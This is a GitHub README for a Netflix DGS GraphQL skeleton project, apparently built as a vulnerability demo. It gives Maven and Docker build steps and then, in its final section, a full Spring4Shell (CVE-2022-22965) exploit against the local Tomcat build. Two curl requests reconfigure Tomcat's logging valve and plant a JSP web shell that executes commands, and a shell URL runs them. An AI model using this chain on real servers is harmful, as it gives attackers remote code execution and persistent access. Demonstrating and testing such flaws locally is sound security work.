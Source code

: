 # DGS (from Netflix) skeleton project

[![github-dgs-build](https://github.com/muldos/dgs-skeleton/actions/workflows/workflow.yml/badge.svg)](https://github.com/muldos/dgs-skeleton/actions/workflows/workflow.yml)

## Introduction

Run the project locally (outside docker): 
Set SHOWS_JSONDB_FOLDER env var (example : /Path/to/dgs-skeleton/src/main/resources/data)
then run

```
mvn spring-boot:run
```

## Build & run
Be sure that docker daemon is running.

Build as self executable JAR

```
export PKG_VERSION=1.2.3
export PKG_TYPE=jar
jf mvn -Drevision=$PKG_VERSION -Dmaven.test.skip=true clean package
docker build --build-arg JAR_FILE_NAME=dgs-skeleton-$PKG_VERSION.$PKG_TYPE -t dgs-graphql:latest .
docker run -p 8080:8080 -v ./src/main/resources/data:/var/db_data -d --name graphql-demo dgs-graphql:latest
```

Then browse to http://localhost:8080/graphiql

Build WAR for Tomcat
```
export PKG_VERSION=1.2.3
export PKG_TYPE=war
export MVN_VIRTUAL_REPO=dro-backend-maven-virtual
jf mvnc --repo-resolve-releases=$MVN_VIRTUAL_REPO --repo-deploy-releases=$MVN_VIRTUAL_REPO --repo-resolve-snapshots=$MVN_VIRTUAL_REPO  --repo-deploy-snapshots=$MVN_VIRTUAL_REPO
jf mvn -Drevision=$PKG_VERSION -Dmaven.test.skip=true -f pom-war.xml clean package deploy
cp $PWD/target/dgs-skeleton-webapp-$PKG_VERSION.$PKG_TYPE ./target/jfrog-demo.war
docker build --build-arg WAR_FILE_NAME=jfrog-demo.war -f DockerfileTomcat -t dgs-graphql-tomcat:latest .
docker run -p 8080:8080 -v $PWD/src/main/resources/data:/var/db_data -d --name graphql-demo dgs-graphql-tomcat:latest
```

Then browse to http://localhost:8080/jfrog-demo/graphiql

If this version is containing the vulnerabilty CVE-2022-22965, you can then exploit it as follow : 

First run
```
curl -H "Accept: text/html;" "http://localhost:8080/jfrog-demo/vulnerable-path?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7b%63%6f%64%65%7d%69&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="
```
To changes Tomcat config valve.

Then create the web shell 
```
curl -H "Accept: text/html;" -H "code: <% java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter(String.valueOf(1337))).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1) { out.println(new String(b)); } %>" "http://localhost:8080/jfrog-demo/vulnerable-path"
```
And run commands using
```
http://localhost:8080/shell.jsp?1337=ls%20-al
```

### References
- https://github.com/itsecurityco/CVE-2022-22965
- https://netflix.github.io/dgs/

